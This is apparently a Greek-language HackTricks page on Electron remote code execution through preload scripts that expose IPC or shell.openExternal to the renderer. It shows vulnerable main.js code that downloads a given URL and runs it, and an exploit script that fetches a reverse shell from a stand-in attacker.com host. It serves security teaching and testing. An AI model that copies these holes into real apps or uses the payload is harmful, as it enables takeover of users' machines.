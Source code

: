 # Electron contextIsolation RCE via IPC

{{#include ../../../banners/hacktricks-training.md}}

Αν το script preload εκθέτει ένα IPC endpoint από το αρχείο main.js, η διαδικασία renderer θα μπορεί να έχει πρόσβαση σε αυτό και αν είναι ευάλωτο, μπορεί να είναι δυνατή μια RCE.

**Οι περισσότερες από αυτές τις παραδείγματα έχουν ληφθεί από εδώ** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). Δείτε το βίντεο για περισσότερες πληροφορίες.

## Example 0

Παράδειγμα από [https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21) (έχετε το πλήρες παράδειγμα του πώς το MS Teams εκμεταλλεύτηκε το XSS για RCE σε αυτές τις διαφάνειες, αυτό είναι απλώς ένα πολύ βασικό παράδειγμα):

<figure><img src="../../../images/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Example 1

Δείτε πώς το `main.js` ακούει στο `getUpdate` και θα **κατεβάσει και θα εκτελέσει οποιοδήποτε URL** περάσει.\
Δείτε επίσης πώς το `preload.js` **εκθέτει οποιοδήποτε IPC** γεγονός από το main.
```javascript
// Part of code of main.js
ipcMain.on("getUpdate", (event, url) => {
console.log("getUpdate: " + url)
mainWindow.webContents.downloadURL(url)
mainWindow.download_url = url
})

mainWindow.webContents.session.on(
"will-download",
(event, item, webContents) => {
console.log("downloads path=" + app.getPath("downloads"))
console.log("mainWindow.download_url=" + mainWindow.download_url)
url_parts = mainWindow.download_url.split("/")
filename = url_parts[url_parts.length - 1]
mainWindow.downloadPath = app.getPath("downloads") + "/" + filename
console.log("downloadPath=" + mainWindow.downloadPath)
// Set the save path, making Electron not to prompt a save dialog.
item.setSavePath(mainWindow.downloadPath)

item.on("updated", (event, state) => {
if (state === "interrupted") {
console.log("Download is interrupted but can be resumed")
} else if (state === "progressing") {
if (item.isPaused()) console.log("Download is paused")
else console.log(`Received bytes: ${item.getReceivedBytes()}`)
}
})

item.once("done", (event, state) => {
if (state === "completed") {
console.log("Download successful, running update")
fs.chmodSync(mainWindow.downloadPath, 0755)
var child = require("child_process").execFile
child(mainWindow.downloadPath, function (err, data) {
if (err) {
console.error(err)
return
}
console.log(data.toString())
})
} else console.log(`Download failed: ${state}`)
})
}
)
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
ipcRenderer.send(event, data)
}
```
Εκμετάλλευση:
```html
<script>
electronSend("getUpdate", "https://attacker.com/path/to/revshell.sh")
</script>
```
## Παράδειγμα 2

Αν το preload script εκθέτει άμεσα στον renderer έναν τρόπο να καλέσει το `shell.openExternal`, είναι δυνατόν να αποκτηθεί RCE.
```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
shell.openExternal(url)
}
```
## Παράδειγμα 3

Εάν το preload script εκθέτει τρόπους για πλήρη επικοινωνία με τη βασική διαδικασία, μια XSS θα είναι σε θέση να στείλει οποιοδήποτε γεγονός. Η επίδραση αυτού εξαρτάται από το τι εκθέτει η βασική διαδικασία όσον αφορά το IPC.
```javascript
window.electronListen = (event, cb) => {
ipcRenderer.on(event, cb)
}

window.electronSend = (event, data) => {
ipcRenderer.send(event, data)
}
```
{{#include ../../../banners/hacktricks-training.md}}
